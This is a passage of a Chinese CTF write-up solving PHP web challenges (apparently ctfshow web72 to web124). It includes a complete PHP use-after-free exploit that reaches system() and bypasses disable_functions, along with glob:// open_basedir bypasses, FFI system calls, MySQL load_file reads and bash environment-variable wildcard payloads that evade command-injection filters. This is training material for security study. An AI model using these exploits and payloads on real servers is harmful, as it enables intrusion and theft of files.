ob_flush(); 只会发送缓冲区的内容到客户端，但不会结束缓冲块。这意味着缓冲区仍然存在，之后的输出仍然可以被添加到这个缓冲区中（直到另一个 ob_end_... 函数被调用）。
```

test

```php
c=echo '1';ob_flush();
```

### 绕过缓冲区

如果是绕过缓冲区的话，用exit或者die函数提前结束代码就行了

test

```php
c=echo '1';exit();
```

所以我们的payload

```php
c=var_export((new SplFileObject('/flag.txt'))->fpassthru());exit();
c=var_export((new SplFileObject('/flag.txt'))->fpassthru());ob_flush();
```

## web72

### #glob协议绕过目录访问限制

open_basedir 是 PHP 的一个安全配置指令，由于 open_basedir 限制 PHP 脚本只能访问特定的目录。当前配置只允许访问 /var/www/html/ 目录及其子目录，但不允许访问其他目录。

这里可以用glob伪协议，此协议筛选目录不受open_basedir的制约

glob协议可以用在原生类中

```php
c=$a=new DirectoryIterator('glob:///*');foreach($a as $A){echo $A.'<br>';};exit();
```

也可以直接用在scandir函数中

```php
c=var_export(scandir('glob:///*'));exit();
```

然后怎么读文件呢？这里就要用到UAF脚本了

### UAF脚本

UAF（Use After Free）漏洞的脚本通常涉及对已经被释放的内存块（堆块）的非法访问或操作。这种漏洞常常发生在编程中，当程序释放了一个内存块后，没有正确地将其指针置为空（NULL）或进行其他形式的清理，导致后续代码仍然可以通过该指针访问已经释放的内存区域。

在编写UAF漏洞的利用脚本时，攻击者通常会尝试执行以下步骤：

1. **申请内存块**：首先，攻击者会通过合法的手段（如malloc、new等）申请一个或多个内存块。
2. **释放内存块**：接着，攻击者会释放其中一个或多个内存块，但故意不将相关的指针置为空。
3. **利用未置空的指针**：在内存块被释放后，攻击者会尝试通过之前未置空的指针来访问或修改这块已经释放的内存区域。由于这块内存可能已经被重新分配给其他用途，因此这种访问或修改可能会导致不可预测的行为，包括信息泄露、任意代码执行等。
4. **实现攻击目标**：通过精心构造的输入或操作，攻击者可以利用UAF漏洞实现各种攻击目标，如获取敏感信息、提升权限、执行任意代码等。

所以我们的payload

```php
c=?><?php
pwn("ls /;cat /flag0.txt");

function pwn($cmd) {
    global $abc, $helper, $backtrace;
    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace(); # ;)
            if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf('%c',$ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf('%c',$v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {
        # str_shuffle prevents opcache string interning
        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; # increase this value if UAF fails
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

    ($helper->b)($cmd);
    exit();
}
```

URL编码后传入就可以了

## web73

没有了open_basedir的限制，那我们尝试正常的读文件

```php
c=var_export(scandir('/'));exit();
```

找到一个flagc.txt

```php
c=var_export((new SplFileObject('/flagc.txt'))->fpassthru());ob_flush();
```

## web74

这次用73的读目录发现读不出来，回显是null，应该是scandir用不了，换成其他函数试一下发现opendir也不行，用原生类看看

```php
c=$A=new DirectoryIterator('/');foreach($A as $a){echo $a.'<br>';};exit();
```

可以读那就直接用原生类读文件

```php
c=var_export((new SplFileObject('/flagx.txt'))->fpassthru());exit();
```

## web75-76

又有目录访问限制，还是用glob协议去解决

```php
c=$A=new DirectoryIterator('glob:///*');foreach($A as $a){echo $a.'<br>';};exit();
```

但是怎么读文件呢？

```php
c=try {
    $dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root',
'root');
    foreach($dbh->query('select load_file("/flag36.txt")') as $row)
    {
        echo($row[0])."|"; 
    }
    $dbh = null;
}catch (PDOException $e) {
    echo $e->getMessage();
    exit(0);
}
exit(0);
```

这里的话是用mysql的load_file()函数去读文件的，但是前提是需要开启mysql服务

## web77

提示php7.4，这道题的话可以用FFI，也就是外部函数调用机制，https://www.php.net/manual/zh/book.ffi.php在PHP7.4以上的版本可以让你在 PHP 里调用 C 代码以及C函数

一开始是读的txt文件

```php
c=$ffi = FFI::cdef("int system(const char *command);");$a='cat /flag36x.txt > 2.txt';$ffi->system($a);exit();
```

但是发现是空的

执行一下readflag程序

```php
c=$ffi = FFI::cdef("int system(const char *command);");$a='/readflag > 1.txt';$ffi->system($a);exit();
```

解释一下:

- `$ffi = FFI::cdef("int system(const char *command);"); `//创建一个system对象
- `$a='/readflag > 1.txt';` //无回显RCE
- `$ffi->system($a);` //通过$ffi去调用system函数

## web118

### #内置环境变量RCE

在源码中发现提示

```php
<!-- system($code);-->
```

所以这里是命令执行，我们先测一下过滤，`dollar`，`~`，然后大写字母没被过滤，可以用Linux内置环境变量，但是这里不能用echo输出环境变量，我们得在本地测

```php
ubuntu@VM-16-12-ubuntu:/var/www/html$ echo ${PWD}
/var/www/html
ubuntu@VM-16-12-ubuntu:/var/www/html$ echo ${PATH}
/home/ubuntu/.nvm/versions/node/v22.14.0/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

这两个环境变量的话跟题目大概率是一样的，看看能不能用这个去拼接一下

```php
ubuntu@VM-16-12-ubuntu:/var/www/html$ echo ${PWD:~A}
l
ubuntu@VM-16-12-ubuntu:/var/www/html$ echo ${PATH:~A}
n
```

拼接出nl，看看能不能执行

```php
ubuntu@VM-16-12-ubuntu:/var/www/html$ ${PATH:~A}${PWD:~A} /var/www/html
nl: /var/www/html: Is a directory
```

可以执行，那我们就打

```php
${PATH:~A}${PWD:~A} ????.???
```

flag在源码中

## web119

一样的界面，不过PATH被过滤了，试试别的环境变量


那我们进行构造

使用/bin/cat

```php
/???/?a? ????.???
payload：
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???

/???/??t ????.???
${PWD::${#SHLVL}}	->	/
${USER:~${#SHLVL}:${#SHLVL}}	->	t
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}??${USER:~${#SHLVL}:${#SHLVL}} ????.???
    
构造/bin/base64 flag.php
/???/?????4 ????.???
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
```

然后flag在源码中

## web120

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|PATH|BASH|HOME|\/|\(|\)|\[|\]|\\\\|\+|\-|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```

过滤的有点多，用脚本输出一下可以用的字符

```php
 # $ . : ; ? @ A B C D E F G H I J K L M N O P Q R S T U V W X Y Z _ { } ~ 
```

还是和上面的一样，得用环境变量去打

上面第一个payload的长度刚刚好没超过

```php
code=${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???
```

然后flag在源码中直接搜就行

## web121

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|HOME|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```

可用字符

```php
# $ . : ; ? @ A B C D E F G H I J K L M N O P Q R S T U V W X Y Z { } 
```

过滤了SHLVL，但是可以用其他的表示1

```php
构造/bin/base64 flag.php
/???/?????4 ????.???
${PWD::${##}}???${PWD::${##}}?????${#RANDOM} ????.???
```

但是这里的话RANDOM是随机的，但是大多数能出现4和5，所以多发几次包就行

## web122

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|PWD|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|#|%|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```

可用字符

```php
$ . : ; < ? @ A B C D E F G H I J K L M N O P Q R S T U V W X Y Z { } 
```

这次还过滤了`#`和`PWD`，看了其他的环境变量发现HOME还没被过滤，用来返回当前用户的主目录路径。不管怎么样第一个都是`/`，那就可以拿第三个payload去打，但是我们需要解决一个如何构造数字的问题。我们需要数字`1`和`4`。

们可以利用`$?`，获取上一条命令执行结束后的返回值，`0`代表成功，`非0`代表失败。

```php
ubuntu@VM-16-12-ubuntu:/var/www/html$ echo 1
1
ubuntu@VM-16-12-ubuntu:/var/www/html$ echo $?
0
ubuntu@VM-16-12-ubuntu:/var/www/html$ lss
Command 'lss' not found, but there are 15 similar ones.
ubuntu@VM-16-12-ubuntu:/var/www/html$ echo $?
127
```

但是这里仍然不是1，这时候该怎么构造呢？

我们看看错误代码的非0返回值结果

```php
"OS error code   1:  Operation not permitted"
"OS error code   2:  No such file or directory"
"OS error code   3:  No such process"
"OS error code   4:  Interrupted system call"
"OS error code   5:  Input/output error"
"OS error code   6:  No such device or address"
"OS error code   7:  Argument list too long"
"OS error code   8:  Exec format error"
"OS error code   9:  Bad file descriptor"
"OS error code  10:  No child processes"
"OS error code  11:  Resource temporarily unavailable"
"OS error code  12:  Cannot allocate memory"
"OS error code  13:  Permission denied"
"OS error code  14:  Bad address"
"OS error code  15:  Block device required"
"OS error code  16:  Device or resource busy"
"OS error code  17:  File exists"
"OS error code  18:  Invalid cross-device link"
"OS error code  19:  No such device"
"OS error code  20:  Not a directory"
"OS error code  21:  Is a directory"
"OS error code  22:  Invalid argument"
"OS error code  23:  Too many open files in system"
"OS error code  24:  Too many open files"
"OS error code  25:  Inappropriate ioctl for device"
"OS error code  26:  Text file busy"
"OS error code  27:  File too large"
"OS error code  28:  No space left on device"
"OS error code  29:  Illegal seek"
"OS error code  30:  Read-only file system"
"OS error code  31:  Too many links"
"OS error code  32:  Broken pipe"
"OS error code  33:  Numerical argument out of domain"
"OS error code  34:  Numerical result out of range"
"OS error code  35:  Resource deadlock avoided"
"OS error code  36:  File name too long"
"OS error code  37:  No locks available"
"OS error code  38:  Function not implemented"
"OS error code  39:  Directory not empty"
"OS error code  40:  Too many levels of symbolic links"
"OS error code  42:  No message of desired type"
"OS error code  43:  Identifier removed"
"OS error code  44:  Channel number out of range"
"OS error code  45:  Level 2 not synchronized"
"OS error code  46:  Level 3 halted"
"OS error code  47:  Level 3 reset"
"OS error code  48:  Link number out of range"
"OS error code  49:  Protocol driver not attached"
"OS error code  50:  No CSI structure available"
"OS error code  51:  Level 2 halted"
"OS error code  52:  Invalid exchange"
"OS error code  53:  Invalid request descriptor"
"OS error code  54:  Exchange full"
"OS error code  55:  No anode"
"OS error code  56:  Invalid request code"
"OS error code  57:  Invalid slot"
"OS error code  59:  Bad font file format"
"OS error code  60:  Device not a stream"
"OS error code  61:  No data available"
"OS error code  62:  Timer expired"
"OS error code  63:  Out of streams resources"
"OS error code  64:  Machine is not on the network"
"OS error code  65:  Package not installed"
"OS error code  66:  Object is remote"
"OS error code  67:  Link has been severed"
"OS error code  68:  Advertise error"
"OS error code  69:  Srmount error"
"OS error code  70:  Communication error on send"
"OS error code  71:  Protocol error"
"OS error code  72:  Multihop attempted"
"OS error code  73:  RFS specific error"
"OS error code  74:  Bad message"
"OS error code  75:  Value too large for defined data type"
"OS error code  76:  Name not unique on network"
"OS error code  77:  File descriptor in bad state"
"OS error code  78:  Remote address changed"
"OS error code  79:  Can not access a needed shared library"
"OS error code  80:  Accessing a corrupted shared library"
"OS error code  81:  .lib section in a.out corrupted"
"OS error code  82:  Attempting to link in too many shared libraries"
"OS error code  83:  Cannot exec a shared library directly"
"OS error code  84:  Invalid or incomplete multibyte or wide character"
"OS error code  85:  Interrupted system call should be restarted"
"OS error code  86:  Streams pipe error"
"OS error code  87:  Too many users"
"OS error code  88:  Socket operation on non-socket"
"OS error code  89:  Destination address required"
"OS error code  90:  Message too long"
"OS error code  91:  Protocol wrong type for socket"
"OS error code  92:  Protocol not available"
"OS error code  93:  Protocol not supported"
"OS error code  94:  Socket type not supported"
"OS error code  95:  Operation not supported"
"OS error code  96:  Protocol family not supported"
"OS error code  97:  Address family not supported by protocol"
"OS error code  98:  Address already in use"
"OS error code  99:  Cannot assign requested address"
"OS error code 100:  Network is down"
"OS error code 101:  Network is unreachable"
"OS error code 102:  Network dropped connection on reset"
"OS error code 103:  Software caused connection abort"
"OS error code 104:  Connection reset by peer"
"OS error code 105:  No buffer space available"
"OS error code 106:  Transport endpoint is already connected"
"OS error code 107:  Transport endpoint is not connected"
"OS error code 108:  Cannot send after transport endpoint shutdown"
"OS error code 109:  Too many references: cannot splice"
"OS error code 110:  Connection timed out"
"OS error code 111:  Connection refused"
"OS error code 112:  Host is down"
"OS error code 113:  No route to host"
"OS error code 114:  Operation already in progress"
"OS error code 115:  Operation now in progress"
"OS error code 116:  Stale NFS file handle"
"OS error code 117:  Structure needs cleaning"
"OS error code 118:  Not a XENIX named type file"
"OS error code 119:  No XENIX semaphores available"
"OS error code 120:  Is a named type file"
"OS error code 121:  Remote I/O error"
"OS error code 122:  Disk quota exceeded"
"OS error code 123:  No medium found"
"OS error code 124:  Wrong medium type"
"OS error code 125:  Operation canceled"
"OS error code 126:  Required key not available"
"OS error code 127:  Key has expired"
"OS error code 128:  Key has been revoked"
"OS error code 129:  Key was rejected by service"
"OS error code 130:  Owner died"
"OS error code 131:  State not recoverable"
"MySQL error code 132: Old database file"
"MySQL error code 133: No record read before update"
"MySQL error code 134: Record was already deleted (or record file crashed)"
"MySQL error code 135: No more room in record file"
"MySQL error code 136: No more room in index file"
"MySQL error code 137: No more records (read after end of file)"
"MySQL error code 138: Unsupported extension used for table"
"MySQL error code 139: Too big row"
"MySQL error code 140: Wrong create options"
"MySQL error code 141: Duplicate unique key or constraint on write or update"
"MySQL error code 142: Unknown character set used"
"MySQL error code 143: Conflicting table definitions in sub-tables of MERGE table"
"MySQL error code 144: Table is crashed and last repair failed"
"MySQL error code 145: Table was marked as crashed and should be repaired"
"MySQL error code 146: Lock timed out; Retry transaction"
"MySQL error code 147: Lock table is full;  Restart program with a larger locktable"
"MySQL error code 148: Updates are not allowed under a read only transactions"
"MySQL error code 149: Lock deadlock; Retry transaction"
"MySQL error code 150: Foreign key constraint is incorrectly formed"
"MySQL error code 151: Cannot add a child row"
"MySQL error code 152: Cannot delete a parent row"
```

我们关注能返回1的命令就行，其实就是权限问题，但是很多权限的命令都是有字母的，然后看到了一个<A是可以返回1的

```php
ubuntu@VM-16-12-ubuntu:/var/www/html$ <A
-bash: A: No such file or directory
ubuntu@VM-16-12-ubuntu:/var/www/html$ echo $?
1
```

那我们就可以构造

```php
code=<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???
code=<A;${HOME:${Z}:$?}???${HOME:${Z}:$?}?????${RANDOM::$?} ????.???
```

这里的话`${Z}`表示0

需要多刷新几次，这次做的时候我就刷新了好多次才刷出来

## web124

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: 收集自网络
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-06 14:04:45

*/

error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```
